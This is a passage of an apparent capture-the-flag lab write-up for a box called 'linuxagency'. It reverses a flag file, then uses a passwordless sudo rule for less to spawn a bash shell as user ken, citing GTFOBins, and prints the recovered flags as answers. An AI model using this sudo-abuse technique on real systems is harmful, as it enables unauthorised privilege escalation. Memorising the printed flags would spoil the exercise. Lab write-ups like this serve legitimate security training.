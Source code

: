 ```
total 16
-rw-r--r-- 1 jordan jordan 8980 Jan 12  2021 examples.desktop
-rw------- 1 jordan jordan   41 Jan 12  2021 flag.txt
jordan@linuxagency:~$ cat flag.txt
cat flag.txt
}3c3e9f8796493b98285b9c13c3b4cbcf{nadroj
```

Reverse
```
jordan@linuxagency:~$ cat flag.txt | rev
cat flag.txt | rev
jordan{fcbc4b3c31c9b58289b3946978f9e3c3}
```

# Answer : jordan{fcbc4b3c31c9b58289b3946978f9e3c3}

# What is ken's flag?

**sudo -l**

```
jordan@linuxagency:~$ sudo -l
sudo -l
Matching Defaults entries for jordan on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jordan may run the following commands on linuxagency:
    (ken) NOPASSWD: /usr/bin/less
```

[GTFOBINS](https://gtfobins.github.io/gtfobins/less/#shell)

```
sudo -u ken less /etc/profile
!/bin/bash
!/bin/bash
ken@linuxagency:/home/jordan$ whoami
whoami
ken
ken@linuxagency:/home/jordan$ cd /home/ken
cd /home/ken
ken@linuxagency:~$ cat flag.txt
cat flag.txt
ken{4115bf456d1aaf012ed4550c418ba99f}
```

# Answer : ken{4115bf456d1aaf012ed4550c418ba99f}

# What is sean's flag?
